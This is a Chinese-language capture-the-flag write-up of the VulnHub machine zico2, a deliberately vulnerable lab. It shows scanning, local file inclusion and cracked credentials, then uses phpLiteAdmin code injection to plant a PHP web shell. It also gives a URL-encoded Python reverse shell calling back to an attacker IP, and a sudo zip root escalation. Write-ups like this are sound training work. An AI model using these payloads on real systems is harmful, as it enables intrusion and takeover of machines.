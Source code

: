 # zico2: 1

2024-4-28 https://www.vulnhub.com/entry/zico2-1,210/

difficulty: Intermediate

## IP

192.168.5.23

## Scan

Open Port -> 22,80,111,54668

```
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 6860dec22bc616d85b88bee3cca12575 (DSA)
|   2048 50db75ba112f43c9ab14406d7fa1eee3 (RSA)
|_  256 115d55298a77d808b4009ba36193fee5 (ECDSA)
80/tcp    open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Zico's Shop
|_http-server-header: Apache/2.2.22 (Ubuntu)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          35358/tcp6  status
|   100024  1          36162/udp6  status
|   100024  1          54668/tcp   status
|_  100024  1          55437/udp   status
54668/tcp open  status  1 (RPC #100024)
```

22 端口不允许匿名登陆，无其他提示信息。

对 80 web 端口进行端口扫描，发现页面 http://192.168.5.23/view，但是是一个空页面，可能是需要参数某些参数才能显示出一些内容，进行FUZZ测试：

```
ffuf -c -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://192.168.5.23/view?FUZZ=index.html -fs 0
```

参数说明：index.html 是跟 view.php 同一个目录下的文件，网站的主页面真实存在，过滤返回 size 为 0 的信息，最终得到了参数名：page，访问 http://192.168.5.23/view?page=index.html 我们看到了主页的内容，证明存在 LFI 漏洞，让我们继续看看还能访问到系统哪些内部文件。

```
ffuf -c -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest.txt -u http://192.168.5.23/view?page=FUZZ -fs 0
```

得到 curl http://192.168.5.23/view?page=../../../etc/passwd 能访问 /etc/passwd，但是必须加几个 ../ 跳跃到上一级才行，应该是 php 程序中做了目录限制，这时 php 包装器也不能使用，无法看到 viwe.php 的源代码。看到 /etc/passwd 中有一个名为：zico 的用户。

目录扫描发现另一个页面链接 http://192.168.5.23/dbadmin/test_db.php ，版本 v1.9.3

在 RCE 之前，我们先要获取到密码，登陆到后台页面，经过查找，默认密码为：admin，尝试登陆成功。

先看看数据库中默认有什么信息，/usr/databases/test_users 中有一个表 info ，里面有 2 条数据：

```
root	653F4B285089453FE00E2AAFAC573414	1
zico	96781A607F4E9F5F423AC01F0DAB0EBD	2
```

看上去是 2 个用户和相应的密码，密码像是 MD5，在网络上尝试找到明文密码：root:34kroot34，zico:zico2215@

尝试用得到的 2 个用户凭据，登陆 ssh，但是登陆都失败，看来这个方向不对。

经过 searchsploit 发现存在相关漏洞，改为尝试下面的 RCE 方法：

```
PHPLiteAdmin 1.9.3 - Remote PHP Code Injection | php/webapps/24044.txt
```

但是在操作过程中发现新建的数据库文件是存储在 /usr/databases/ 目录下，不是直接存放在 /var/www/html 路径中，不能直接访问执行 php 后门代码。

相当于 php 后门代码写入到了某个目录下，但是不能通过 web 直接去访问，想到前面发现的 LFI 漏洞，把这两个漏洞结合起来使用，应该就能执行 PHP RCE 了。

创建一个 shell 的数据库，里面创建一个 shell 表，就 1 列为 text 类型，插入一行数据值为 `<?php system($_GET["cmd"]);>`，然后使用下面的链接进行验证后门是否写入成功：

```
curl "http://192.168.5.23/view?page=../../../../usr/databases/shell&cmd=id" --output -

SQLite format 3@
tableshellshellCREATE TABLE 'shell' ('cmd' TEXT default 'AAAAuid=33(www-data) gid=33(www-data) groups=33(www-data)
```

可以看到，我们的 php 代码已经执行了，先查看下目标机器上是否有 python：

```
curl "http://192.168.5.23/view?page=../../../../usr/databases/shell&cmd=which+python" --output -
/usr/bin/python
```

使用 nc 执行我们的反弹命令，要对 python 连接命令先进行 url 编码：

```
curl "http://192.168.5.23/view?page=../../../../usr/databases/shell&cmd=python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22192.168.5.10%22%2C8888%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22%2Fbin%2Fsh%22%29%27" --output -
```

在 kali 上监听 8888 端口，我们得到了反弹的 shell，先升级 tty。

在 /home/zico 目录中，看到 to_do.txt 文件，应该是个提示文件，看看里面什么内容：

```
try list:
- joomla
- bootstrap (+phpliteadmin)
- wordpress
```

应该是告诉我们去哪些目录下去寻找有用信息，对这几个目录进行关键文件查看。

看到 wordpress/wp-config.php 中的内容：

```
define('DB_NAME', 'zico');
define('DB_USER', 'zico');
define('DB_PASSWORD', 'sWfCsfJSPV9H3AmQzw8');
```

尝试用次密码切换到 zico，成功切换到该用户。看看 zico 用户有什么特权：

```
sudo -l

User zico may run the following commands on this host:
    (root) NOPASSWD: /bin/tar
    (root) NOPASSWD: /usr/bin/zip
```

可以使用 zip 进行提权：

```
TF=$(mktemp -u)
sudo /usr/bin/zip $TF /etc/hosts -T -TT 'sh #'

# id
uid=0(root) gid=0(root) groups=0(root)

# cat flag.txt
#
# ROOOOT!
# You did it! Congratz!
#
# Hope you enjoyed!
#
```
